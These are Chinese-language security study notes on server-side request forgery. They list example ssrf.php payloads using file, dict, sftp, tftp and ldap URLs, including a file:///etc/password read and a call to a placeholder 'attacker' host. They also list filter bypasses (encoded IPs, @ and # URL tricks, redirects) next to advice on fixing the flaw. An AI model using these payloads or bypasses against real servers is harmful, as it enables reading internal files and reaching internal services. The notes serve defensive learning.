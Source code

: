 接受ua为curl的时候，支持的协议有
![](https://ypyun-cdn.u1n1.com/img/picgo/2022/09/14/20220914094908.png)

使用`curl -v http://xx.com/ssrf.php?url=sxxx`
```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复
> https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html

1. 检查是否为内网IP地址
绕过方法:
    利用八进制IP地址绕过
    利用十六进制IP地址绕过
    利用十进制的IP地址绕过
    利用IP地址的省略写法绕过
最好的做法：IP地址转换为整数再进行判断

2. 获取真正请求的host

    1. 如何正确的获取用户输入的URL的Host？
    最常见的就是，使用http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname
    
    2. 只要Host只要不是内网IP即可吗？
    host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查
    
    3. 只要Host指向的IP不是内网IP即可吗？
    不一定，可能会30x跳转
    

归纳
解析目标URL，获取其Host
解析Host，获取Host指向的IP地址
检查IP地址是否为内网IP
请求URL
如果有跳转，拿出跳转URL，执行1



### 在浏览器端，Referer可以篡改吗？
通过插件修改，一般抓包修改

### xss盲打到内网服务器的利用
